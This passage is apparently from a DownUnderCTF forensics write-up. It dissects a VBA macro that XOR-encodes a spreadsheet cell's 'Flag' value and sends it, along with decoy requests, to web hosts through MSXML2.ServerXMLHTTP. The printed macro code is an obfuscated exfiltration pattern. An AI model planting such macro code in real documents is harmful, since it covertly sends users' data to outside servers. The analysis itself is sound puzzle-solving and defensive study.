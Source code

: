 ```vb
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function
Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function
Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function
Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function
```

We can see that `superThing()` sends a web request, so there are a few web requests in order.
- http://play.duc.tf/ + `totalyFine(forensics("Yes"))`
- http://flag.com/
- http://play.duc.tf/
- http://en.wikipedia.org/wiki/Emu_War
- http://downunderctf.com/ + `totalyFine(forensics("Try Harder"))`
- http://play.duc.tf/ + `totalyFine(forensics("Pterodactyl"))`
- http://downunderctf.com/ + `totalyFine(forensics(doThing("Flag: " & valueA1, "MonkeyMagic")))`
- http://play.duc.tf/ + `totalyFine(forensics("Forensics"))`

Let's figure out what `doThing` does.

```vb
Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function
```
